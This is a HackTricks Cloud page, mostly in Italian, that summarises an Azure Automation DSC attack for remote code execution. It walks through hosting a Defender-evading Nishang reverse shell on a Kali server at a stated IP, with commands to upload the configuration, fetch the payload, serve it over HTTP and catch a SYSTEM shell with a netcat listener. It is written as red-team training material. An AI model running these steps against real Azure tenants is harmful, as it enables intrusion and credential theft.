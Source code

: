 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Il processo prevede la configurazione di un'infrastruttura di server remoto per ospitare un payload modificato di Nishang `Invoke-PowerShellTcp.ps1`, chiamato `RevPS.ps1`, progettato per eludere Windows Defender. Il payload è servito da una macchina Kali Linux con IP `40.84.7.74` utilizzando un semplice server HTTP Python. L'operazione viene eseguita attraverso diversi passaggi:

#### Step 1 — Create Files

* **Files Required:** Sono necessari due script PowerShell:
1. `reverse_shell_config.ps1`: Un file di Desired State Configuration (DSC) che recupera ed esegue il payload. È disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Uno script per pubblicare la configurazione sulla VM, disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Le variabili e i parametri in questi file devono essere adattati all'ambiente specifico dell'utente, inclusi nomi delle risorse, percorsi dei file e identificatori di server/payload.

#### Step 2 — Zip Configuration File

* Il `reverse_shell_config.ps1` viene compresso in un file `.zip`, rendendolo pronto per il trasferimento all'Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Imposta il contesto di archiviazione e carica

* Il file di configurazione compresso viene caricato in un contenitore di archiviazione Azure predefinito, azure-pentest, utilizzando il cmdlet Set-AzStorageBlobContent di Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Il server Kali scarica il payload RevPS.ps1 da un repository GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Lo script viene modificato per specificare la VM Windows target e la porta per la reverse shell.

#### Step 5 — Pubblica il file di configurazione

* Il file di configurazione viene eseguito, risultando nel deployment dello script della reverse shell nella posizione specificata sulla VM Windows.

#### Step 6 — Ospita il payload e imposta il listener

* Viene avviato un Python SimpleHTTPServer per ospitare il payload, insieme a un listener Netcat per catturare le connessioni in arrivo.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Il compito pianificato esegue il payload, ottenendo privilegi a livello di SYSTEM.

#### Conclusione

L'esecuzione riuscita di questo processo apre numerose possibilità per ulteriori azioni, come il dumping delle credenziali o l'espansione dell'attacco a più VM. La guida incoraggia a continuare a imparare e a essere creativi nel campo di Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
